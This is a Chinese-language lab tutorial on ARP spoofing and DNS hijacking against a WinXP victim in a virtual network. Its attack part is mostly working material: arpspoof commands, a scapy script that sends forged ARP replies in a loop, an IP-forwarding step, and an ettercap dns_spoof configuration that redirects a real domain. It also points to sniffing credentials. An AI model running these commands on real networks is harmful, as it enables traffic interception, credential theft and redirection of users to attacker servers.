 # 一条命令，实现ARP欺骗+DNS劫持

## 0、前言：在开始前你需要知道的东西：

### （1）一丢丢的计网基础（ARP是什么，DNS是什么，在二层和三层的工作原理）

ARP：在局域网内，数据包交换的形式是帧，帧传播依靠的是MAC地址，而我们只有主机的IP地址，192.168.xx.xx/10.0.xx.xx之类的，ARP协议即是将主机的IP地址转为MAC地址的协议，第一次会在局域网内广播ARP报文询问指定IP对应的MAC的地址，有主机回应就会把其MAC地址单播给询问主机，然后询问主机就会将该IP和MAC地址的对应关系写入ARP缓存表以便下次使用，下次就不用再以广播的方式获取MAC地址了

DNS：一般我们访问一个网页（或者资源）都是以域名的形式，无论是在浏览器里输入URL还是直接点击A标签，都是通过域名的方式访问资源，但是在网络三层中数据包不是靠域名来交换的，而是靠资源的IP，这就需要我们将域名转为IP地址以便传输数据包，DNS就是这样的存在，主机将需要访问的资源域名发送到DNS服务器上查询其IP，再将获得的结果发送回来，并且在主机本地缓存一份，以后访问就先从本地缓存先找起，这点很关键，等会我们就是在本地DNS缓存上作文章。

### （2）一丢丢的Linux基础（基础命令的使用）

没什么好说的，dddd

### （3）一丢丢python基础（能看懂代码即可）

下面有一段Python代码，有助于理解ARP欺骗原理（重点）

### （4）关于ARP和DNS怎么扯到一起

这就涉及到局域网中一个特殊且重要的角色——网关，网关是访问外网所必须的，相当于连接内网和外网的纽带，在访问外网时，主机会将请求先发送给网关，由网关转发请求给指定服务器获取资源，所以也由网关来请求DNS服务器将域名转为IP地址（不甚准确，在本地无缓存的情况下成立），那么如何获取网关的MAC地址（网关的IP一般由路由器或者其他设备在拨号完成后自动分配，好几种情况，只需要知道网关IP会自动分配就行了），没错，就是通过如上提到的ARP协议获取网关的MAC地址完成通信。这不就串起来了。

## 1、ARP欺骗概念（单向欺骗，双向欺骗）+DNS劫持概念：

## ![ARP欺骗](D:\BaiduNetdiskDownload\Cpp-0-1-Resource-master\ARP欺骗.png)

### ARP单向欺骗：

只欺骗被攻击机，伪造成被攻击机的网关，被攻击机发出的流量都先发送至攻击机

### ARP双向欺骗：

欺骗被攻击机，也欺骗被攻击机实际网关，对被攻击机来说，攻击机（伪造）为其网关，对被攻击机实际网关来说，攻击机（伪造）为被攻击机，实现双向欺骗，无论是攻击机还是被攻击机实际网关发送的流量包都会发送至攻击机。

### DNS劫持（又叫域名劫持）：

![DNS劫持](D:\BaiduNetdiskDownload\Cpp-0-1-Resource-master\DNS劫持.png)

攻击机向目标机器发送构造好的ARP应答数据包，ARP欺骗成功后，嗅探到对方发出的DNS请求数据包，分析数据包取得ID和端口号后，向目标发送自己构造好的一个DNS返回包，对方收到DNS应答包后，发现ID和端口号全部正确，即把返回数据包中的域名和对应的IP地址保存进DNS缓存表中，而后来的当真实的DNS应答包返回时则被丢弃。

## 2、ARP欺骗+DNS劫持欺骗实验环境：

```python
Kali攻击机：		IP：192.168.32.132			MAC：00:0c:29:df:c8:ef
WinXP被攻击机：		IP：192.168.32.131			MAC：00:0c:29:dc:23:79
网关：				 IP：192.168.32.2			MAC：00:50:56:f8:b1:7d（可用arp -a查看）
```

## 3、ARP（攻击）欺骗：

```python
kali实施arp欺骗命令：（单向，仅欺骗被攻击机）
arpspoof -i eth0 -t 192.168.32.131 192.168.32.2
(双向：arpspoof -i eth0 -t 192.168.32.2 192.168.32.131)
-i：指定使用的监听网卡
-t：攻击主机目标地址 攻击主机网关地址

附：Python脚本版（效果一样的，更有利于理解原理）：
from scapy.layers.l2 import getmacbyip, Ether, ARP
from scapy.sendrecv import sendp
import time

def arp_spoof():
   iface  ="VMware Virtual Ethernet Adapter for VMnet8"

#被攻击机IP和MAC，WinXP
   target_ip = '192.168.32.131'
   target_mac = '00:0c:29:dc:23:79'

#攻击机IP和MAC，kali
#    spoof_ip = '192.168.32.132'
   spoof_mac = '00:0c:29:df:c8:ef'

#网关IP和MAC
   gateway_ip = '192.168.32.2'
   gateway_mac = getmacbyip(gateway_ip)

   while True:
       #构造网络层数据包，欺骗被攻击机，伪造成网关
       packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
       sendp(packet, iface=iface)

       #构造网络层数据包，欺骗网关，伪造成被攻击机
       packet = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
       sendp(packet, iface)
       
       time.sleep(1);

if __name__ == '__main__':
    arp_spoof()
```

此时在WinXP上使用arp -a命令查看IP和MAC地址对应关系，网关IP（192.168.32.2）对应MAC地址为攻击机IP（192.168.32.132）对应MAC地址（00:0c:29:df:c8:ef）即为成功欺骗，此时WinXP是无法上网的。

继续进阶，修改/proc/sys/net/ipv4/ip_forward的值为1，开启kali的流量转发功能

```shell
#查看ip_forward值
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward
0
#修改其值为1
┌──(root㉿kali)-[~/Desktop]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
#开启成功
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```

这时重新实施arp欺骗，欺骗成功后被攻击机是可以上网，但是是把流量转发给攻击机，由攻击机充当其网关的角色来转发流量，实现流量劫持。

可以使用wireshark，fiddler等抓包工具来抓取数据包，获取被攻击机敏感信息如账号密码等（PS：如有兴趣可自行搜索教程，这里重点不是这个，恕不赘述）

经过如上步骤，已达成DNS劫持的前提条件，下面继续实验

## 4、DNS劫持：

### 准备工作：

安装ettercap，一般kali自带的只有文本版，也可以安装图形化界面版

```shell
┌──(root㉿kali)-[~/Desktop]
└─# apt-get install ettercap-graphical

#安装完成后，修改配置文件/etc/ettercap/etter.dns
┌──(root㉿kali)-[~/Desktop]
└─# vim /etc/ettercap/etter.dns 
#在最后一行（任意位置都可以啦，记得把注释去掉）添加如下字段：
域名	DNS记录类型	访问域名时需要映射的IP
例：
www.bilibili.com	A	192.168.32.133
*	PTR	192.168.32.133
注：第三个字段IP是作为Apache/Nginx服务器域名来访问，映射时攻击机会向DNS服务器发出对该域名（IP）的请求，国内服务器无域名或域名未备案的话大概率不能访问
```

配置文件修改好后，可以开始使用工具进行DNS劫持了

### 命令行版：

```shell
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.32.131// /192.168.32.2//
# -Tq:T以文本模式运行，q以安静模式运行
# -i 指定网卡
# -M （MITM-attack）指定中间人攻击方式，这里是ARP欺骗
# -P 指定插件（也算攻击方式的一种）
# 192.168.32.131 被攻击机IP
# 192.168.32.2	网关IP
```

运行如上命令后，被攻击机DNS缓存内就被写入污染后的DNS记录，且短时间内存在，可在被攻击机上使用如下命令查看：

```shell
Windows：
ipconfig /displaydns
Linux:
nscd -g（查看DNS统计信息，需要看是否自带此工具）
```

### 图形化界面版：

```shell
#kali终端输入ettercap -G或kali菜单直接搜索ettercap使用
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -G    
```

![image-20221120124420348](C:\Users\ZWXT\AppData\Roaming\Typora\typora-user-images\image-20221120124420348.png)

![image-20221120123344729](C:\Users\ZWXT\AppData\Roaming\Typora\typora-user-images\image-20221120123344729.png)

![image-20221120124006905](C:\Users\ZWXT\AppData\Roaming\Typora\typora-user-images\image-20221120124006905.png)



![image-20221120124523793](C:\Users\ZWXT\AppData\Roaming\Typora\typora-user-images\image-20221120124523793.png)



此时访问上面配置文件指定域名时会被定向至指定的IP地址，成功实现DNS劫持，且短时间内生效，发来正确的DNS记录也会被丢弃。这个时候就可以去看看效果了。实验结束记得关闭工具的使用，刷新下DNS缓存及ARP缓存，顺便清除浏览器缓存

```shell
Windows：
#刷新DNS缓存 ipconfig /flushdns
#刷新ARP缓存 ARP -d
```

